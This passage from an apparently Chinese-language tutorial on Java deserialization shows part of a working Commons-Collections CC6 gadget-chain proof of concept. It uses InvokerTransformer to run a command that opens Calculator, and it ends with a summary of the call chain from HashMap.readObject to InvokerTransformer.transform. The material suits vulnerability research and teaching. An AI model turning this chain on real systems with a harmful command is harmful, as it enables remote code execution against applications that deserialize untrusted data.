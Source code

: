 ```java
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        //map.clear();

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC6();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![undefined](https://p1.ssl.qhimg.com/t01af36c3d9c1ae23de.png "undefined")

## 调用链

```java
HashSet.readObject()/HashMap.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                LazyMap.get()
                    ChainedTransformer.transform()
                        InvokerTransformer.transform()
```
